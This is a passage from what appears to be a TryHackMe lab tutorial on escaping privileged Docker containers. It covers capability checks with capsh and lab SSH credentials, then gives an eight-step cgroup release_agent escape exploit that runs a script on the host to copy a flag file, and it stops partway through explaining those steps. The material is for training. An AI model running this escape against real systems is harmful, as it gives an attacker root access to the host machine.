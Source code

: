 Note how containers #1 and #2 are running is "user"/"normal" mode whereas container 3 is running in "privileged" mode. Containers running in "user" mode interact with the operating system through the Docker engine. Privileged containers, however, do not do this...instead, they bypass the Docker engine and have direct communication with the operating system.

**9.2. What does this mean for us?**

Well, if a container is running with privileged access to the operating system, we can effectively execute commands as root - perfect!

We can use a system package such as "libcap2-bin"'s `capsh` to list the capabilities our container has: `capsh --print` . I've highlighted a few interesting privileges that we have been given, but greatly encourage you to research into anymore that may be exploited! Privileges like these indicate that our container is running in privileged mode.

![](https://assets.tryhackme.com/additional/docker-rodeo/privileged-container/listcap2.png)

Before we begin to exploit this for ourselves, **you will need to deploy the new Instance attached to this Task.** The vulnerabilities of the previous VM conflict with this exploit.

**9.3. Connecting to the container:**

Connect to your new Instance using SSH with the following details:

* New Instance IP: MACHINE_IP
* SSH Port: 2244
* Username: root
* Password: danny

Allowing a few minutes for the new Instance to deploy, I'm going to demonstrate leveraging the "sys_admin" capability. We can confirm we have this capability by grepping the output of `capsh`:

![](https://assets.tryhackme.com/additional/docker-rodeo/privileged-container/getcap1.png)

This capability permits us to do multiple of things (which is listed [here](https://linux.die.net/man/7/capabilities)), but we're going to focus on the ability given to use us via "sys_admin" to be able to [mount](https://linux.die.net/man/2/mount) files from the host OS into the container.

The code snippet below is based upon (but a modified) version of the [Proof of Concept (PoC) created by Trailofbits](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.) where they detail the inner-workings to this exploit well.

1. mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
2. echo 1 > /tmp/cgrp/x/notify_on_release
3. host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
4. echo "$host_path/exploit" > /tmp/cgrp/release_agent
5. echo '#!/bin/sh' > /exploit
6. echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit
7. chmod a+x /exploit
8. sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

**9.4. Let's briefly summarise what happens here:**

9.4.1. We need to create a group to use the Linux kernel to write and execute our exploit. The kernel uses "cgroups" to manage processes on the operating system since we have capabilities to manage "cgroups" as root on the host, we'll mount this to "/tmp/cgrp" on the container.
